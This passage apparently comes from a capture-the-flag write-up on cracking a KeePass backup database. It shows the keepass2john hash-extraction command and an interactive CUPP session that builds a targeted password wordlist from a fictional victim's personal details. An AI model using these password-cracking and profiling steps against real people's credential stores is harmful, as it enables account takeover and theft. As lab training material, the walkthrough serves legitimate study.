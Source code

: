 The file requires a master password. Let's crack it!

1. Convert the KeePass database to a hash:
   ```bash
   keepass2john Backup.kdbx > Backup_hash
   ```
2. Attempt to crack with `rockyou.txt` (no luck), so generate a custom wordlist using `cupp` based on user info.

---

*Proceed to the next section for cracking and extracting credentials from the KeePass database.*

## Cracking the KeePass Database Password

After downloading `Backup.kdbx`, we need to crack its password to access stored credentials.

### 1. Generating a Custom Wordlist with CUPP

We use [CUPP (Common User Passwords Profiler)](https://github.com/Mebus/cupp) to generate a targeted wordlist based on information gathered about the user.

```console
$ cupp -i
___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]

[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Mount
> Surname: Lhotse
> Nickname: MrSecurity
> Birthdate (DDMMYYYY): 18051956

> Pet's name: Lhotsy
> Company name: BestMountainsInc

> Do you want to add some key words about the victim? Y/[N]: n
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]: y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mount.txt, counting 11196 words.
[+] Now load your pistolero with mount.txt and shoot! Good luck!
```
